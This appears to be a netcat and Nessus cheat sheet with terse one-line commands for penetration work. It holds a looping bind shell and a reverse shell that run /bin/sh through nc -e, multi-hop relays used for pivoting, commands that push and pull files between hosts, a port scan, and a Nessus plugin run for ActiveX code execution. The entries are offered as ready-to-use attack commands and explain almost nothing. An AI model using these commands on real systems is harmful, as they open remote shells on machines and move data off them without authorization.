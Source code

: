 # Unix
while [ 1 ]; do echo "Started"; nc -l -p [port] -e /bin/sh; done
# shoveling shell
nc -l -p [port]
nc [ip] [port] -e /bin/sh
# one-way relay
nc -l -p 11111 | nc [target_ip] 54321
# two-way relay
# three-netcat (sloppy: split response)
nc -l -p 11111 | nc next_hop 54321 | nc previous_hop 22222
# batch file  [nc next_hop 54321] (Windows)
nc -l -p 11111 -e ncrelay.bat
# inetd
11111 stream tcp nowait nobody /usr/sbin/tcpd /usr/bin/nc next_hop 54321
# backpipe
mknod backpipe p
nc -l -p 11111 0<backpipe | nc next_hop 54321 1>backpipe
# push a file from listener to client (you can use a web browser to get it)
nc -l -p [port] < [file]
nc [ip] [port] > [file]
# pull a file from client to listener
nc -l -p [port] > [file]
nc [ip] [port] < [file]
# port scan
nc -v -w3 -z [target_ip] [start_port]-[end_port]
# replay attack
nc?

## nessus

nasl -k /opt/nessus/var/nessus/<user>/kbs/<target>  -t <target>
codesupport_activex_code_exec.nasl
